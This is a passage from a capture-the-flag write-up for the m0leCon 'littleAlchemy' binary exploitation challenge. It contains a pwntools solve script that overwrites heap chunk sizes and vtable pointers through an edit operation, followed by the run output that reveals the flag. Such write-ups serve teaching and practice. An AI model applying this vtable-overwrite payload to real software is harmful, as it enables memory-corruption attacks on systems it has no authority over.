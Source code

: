 ```python
    type2 = 0x4242424242424242

    create_element(0, -1, -1)
    create_element(1, -1, -1)
    create_element(2, -1, -1)
    
    payload = b'X'*0x10  # name

    payload += b'Y'*0x8  # chunk size
    payload += b'V'*0x8  # vtable
    payload += p64(0x1)  # is_simple_element
    payload += p64(type1)  # type
    payload += b'X'*0x10 # name

    payload += b'Y'*0x8  # chunk size
    payload += b'V'*0x8  # vtable
    payload += p64(0x1)  # is_simple_element
    payload += p64(type2)  # type

    
    edit_element(0, payload)

    create_element(3, 1, 2)

    r.interactive()


if __name__ == "__main__":
    main()
```

If we run it, we get the flag:

```bash
> python solve.py 
[*] '.../littleAlchemy'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challs.m0lecon.it on port 2123: Done
POW solved: b'vACLppdvGUaYeY'
[*] Switching to interactive mode
 [*] created ptm{vT4bl3s_4r3_d4ng3r0us_019}!
Operations: [1]->Create_element [2]->Print_element [3]->Print_all [4]->Edit_element [5]->Delete_element [6]->Copy_name [7]->Exit
>$
```

The flag is `ptm{vT4bl3s_4r3_d4ng3r0us_019}`.

### Files

- [solve.py](solve.py)